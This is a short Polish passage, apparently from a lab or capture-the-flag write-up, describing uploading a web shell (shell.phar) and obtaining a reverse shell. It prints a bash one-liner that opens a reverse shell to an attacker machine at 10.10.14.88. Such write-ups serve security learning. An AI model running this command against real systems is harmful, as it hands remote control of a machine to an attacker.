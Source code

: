 <img src="images/5.png" width="100%"> 

Wykorzystując `WebShella` poprzez pobranie na serwer pliku `shell.phar` byliśmy w stanie utworzyć `Reverse Shell` do maszyny z Kali Linuxem.
```bash
/usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.88/2137 0>&1'
```

Po zmianie serwera oraz czterech restartach udało nam się uzyskać dostęp do `Reverse Shella`:
 